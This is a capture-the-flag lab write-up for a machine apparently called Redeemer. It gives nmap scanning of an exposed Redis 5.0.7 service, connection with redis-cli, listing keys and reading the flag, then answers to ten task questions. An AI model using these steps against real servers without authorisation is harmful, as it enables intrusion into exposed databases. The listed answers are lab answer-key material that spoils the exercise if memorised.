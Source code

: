 # Redeemer      

![Fawn](redemeerlogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -p- -sV -T4 {target ip} -v

```

![nmap](redeemernmap.png)

Port 6379/tcp is open. Service is `redis` and its version is `Redis key-value store 5.0.7`.

### Redis

If you want to search for a specific functionality, type `redis-cli -h`.

We are going to use `-h` flag.

Type:

```
redis-cli -h {target ip}
```

![redis](redeemerredis.png)

When you are in type `info` for more informations.

![redis](redeemerredis2.png)

![redis](redeemerredis3.png)

### Get the flag

There is one database. Let's select it.

```
select 0
```
When database is selected, we can list all the keys present in it by typing:

```
keys *
```

Then we go with:

```
get flag
```

![get](redeemerredis4.png)

Here comes the flag.

### Paste the flag

![pwned](redeemerpwned.png)

## Answers

### Task-1: Which TCP port is open on the machine?

6379

### Task-2: Which service is running on the port that is open on the machine?

redis

### Task-3: What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database

In-memory Database

### Task-4: Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.

redis-cli

### Task-5: Which flag is used with the Redis command-line utility to specify the hostname?

-h 

### Task-6: Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?

info 

### Task-7: What is the version of the Redis server being used on the target machine?

5.0.7

### Task-8: Which command is used to select the desired database in Redis?

select

### Task-9: How many keys are present inside the database with index 0?

4

### Task-10: Which command is used to obtain all the keys in a database?

keys *

### Submit root flag

Good job!